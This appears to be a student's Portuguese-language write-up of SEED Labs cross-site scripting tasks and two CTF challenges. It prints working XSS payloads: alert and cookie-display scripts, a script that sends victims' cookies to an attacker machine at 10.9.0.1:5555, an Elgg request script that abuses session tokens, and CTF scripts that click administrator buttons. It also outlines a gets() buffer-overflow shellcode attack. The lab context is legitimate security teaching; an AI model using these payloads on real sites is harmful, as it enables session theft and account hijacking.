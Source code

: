# SEED-LABS

## Task 1: Posting a Malicious Message to Display an Alert Window

* Esta tarefa foi bastante simples, apenas entramos na aplicação web com as credenciais da Alica, que foram providenciadas anteriormente, e colocamos no campo *short description* o código html: ``<script>alert(’XSS’);</script>``.

Print do ecrã depois de alterado o perfil da Alice:
![Image_week10_Task1](./Images/week10t1.png)

## Task 2: Posting a Malicious Message to Display Cookies

* Esta tarefa é bastante parecida com a anterior. Era pedido para dar display das *cookies* do utilizador no ecrã, assim, alteramos o código do script anterior para ``<script>alert(document.cookie);</script>``

Print do ecrã depois de alterado o perfil da Alice:
![Image_week10_Task2](./Images/week10t2.png)

## Task 3: Stealing Cookies from the Victim’s Machine

* Nesta tarefa era pedido para roubar as *cookies* do utilizador, isto é, a tarefa anterior só dava display das *cookies* a este, agora queremos que elas sejam enviadas para nós, o atacante.
* Com este objetivo em mente era necessário que o código fizesse um **request** ao atacante, isto é possível se tentarmos inserir uma imagem através do código (com recurso à tag &lt;img&gt;) que tente aceder a um url na máquina do atacante.
* Assim, alteramos o código inserido para:``<script>document.write(’<img src=http://10.9.0.1:5555?c=’+ escape(document.cookie) + ’ >’); </script>`` para a aplicação web ao lançar o request http guarde as *cookies* do utilizador na nossa máquina.

Print do ecrã com o terminal depois de alterado o perfil da Alice:
![Image_week10_Task3](./Images/week10t3.png)

## Task 4: Becoming the Victim’s Friend

* Nesta tarefa era pedido para alterarmos um script js que fizesse qualquer pessoa que abrisse o nosso perfil se tornasse automáricamente amiga do *Sammy*.

Código disponibilizado:
![Image_week10_original_code](./Images/week10t4example_code.png)

* Depois de analizado o código entendemos que a maior parte do trabalho já estava feita e só precisavamos de alterar a variável ``sendurl``.
* Para sabermos o url a enviar à aplicação utilizamos uma extensão do firefox previamente instalada: ***HTTP Header***. 
* Entramos com um utilizador diferente e adicionamos o *Sammy* aos amigos, fizemos o mesmo para outro utilizador. Apontamos os urls e, depois de um pouco de analise e comparação, reparamos que os urls seguiam a mesma convenção, isto é: ``"http://ctf-fsi.fe.up.pt:5002/request/8ffc1002dc5090e4be777b8dc6f11725948b0955/mark_as_read " + ts + "&__elgg_token=" + token + " &__elgg_ts=" + ts + "&__elgg_token=" + token;``
* Depois de entendido isto, foi simples a criação do url a enviar.
Código enviado:
````html
<script type="text/javascript">

window.onload = function () {

var Ajax=null;

var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;

var token="&__elgg_token="+elgg.security.token.__elgg_token;

var sendurl= "http://ctf-fsi.fe.up.pt:5002/request/8ffc1002dc5090e4be777b8dc6f11725948b0955/mark_as_read " + ts + "&__elgg_token=" + token + " &__elgg_ts=" + ts + "&__elgg_token=" + token; 

Ajax=new XMLHttpRequest();

Ajax.open("GET", sendurl, true);

Ajax.send();

}

</script>


````
![Image_week10_Task3](./Images/week10t4.gif)
### Question 1: Explain the purpose of Lines ➀ and ➁, why are they are needed?

As linhas ➀ e ➁ são necessárias para saber os tokens privados do utilizador que abriu o perfil do *Sammy*, algo que só este deve ter acesso e é necessário para fazer um pedido de amizada à aplicação em nome dele.

### Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

Não, não é possível lançar um ataque ao introduzir o código descrito anteriormente.


# CTF

## Desafio 1: 

Ao fazer o primeiro pedido no site, já com um script de um popup, percebemos que apareciam os botoes do Admistrador, além de que o form nao possuia filtros, posiblitando XSS. Dessa maneira, ficou claro que deveriamos ablitar os botoes do Admistrador de forma a ter o pedido pela flag "aceito".

Nossa primeira tentativa foi: 
````
<script> 
    document.getElementById("giveflag").disable = false;
    document.getElementById("markAsRead").disable = false; 
</script>
````
Contudo, ao clicar nos botoes aparecia-nos o erro 403, forbbiden. Ou seja, deveriamos criar um exploit que ao admistrador  abrir a página com o nosso pedido os botoes seriam "clicados". 
Assim sendo, este foi o exploit utilizado:
````
<script> 
    document.getElementById("markAsRead").click();
    document.getElementById("giveflag").click(); 
</script>
````

## Desafio 2:

* Depois de analizado o codigo fonte reparamos numa grande vulnerabildade, isto é, o programa dava output do endereço da variavel buffer e pedia um input de seguida guardando-o nesta mesma atraves da função ```gets()``.
* Assim pudemos fazer um programa em python que recebe o endereço do buffer e corre um shell code - shell code injection - e abrir um terminal no servidor para correr os comandos que quisermos, como por exemplo ``cat flag.txt`` para buscar o valor da flag resposta.

![Image_week10_ctf2](./Images/week10ctf2.png)

